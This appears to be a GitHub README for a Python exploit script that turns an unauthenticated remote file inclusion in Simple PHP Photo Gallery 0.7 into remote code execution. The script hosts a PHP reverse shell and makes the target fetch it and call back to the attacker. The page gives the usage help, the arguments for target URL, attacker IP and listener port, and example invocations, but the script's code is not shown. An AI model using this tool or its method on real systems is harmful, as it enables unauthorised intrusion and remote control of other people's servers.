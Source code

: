 # SimplePHPGal-RCE.py RFI --> RCE
Simple PHP Photo Gallery 0.7 is vulnerable to Unauthenticated RFI. This script will attempt to turn that into RCE by automatically hosting a PHP reverse shell and then calling that shell back. The attacker still needs to catch the shell with netcat or something similar. 

Credit: https://www.exploit-db.com/exploits/48424

python3 SimplePHPGal-RCE.py -h
usage: SimplePHPGal-RCE.py [-h] [--httpport HTTPPORT] url attackerip attackerport

This script uses an RFI in SimplePHPGal to get RCE
 python3 SimplePHPGal-RCE.py http://192.168.1.12/ 192.168.1.5 4444
 python3 SimplePHPGal-RCE.py http://192.168.1.12/ 192.168.1.5 4444 --httpport 8080

positional arguments:
  url                  The URL of the target.
  attackerip           Kali IP address for reverse shell and http server
  attackerport         Port for the reverse shell.

optional arguments:
  -h, --help           show this help message and exit
  --httpport HTTPPORT  Port for the http server. Default 80

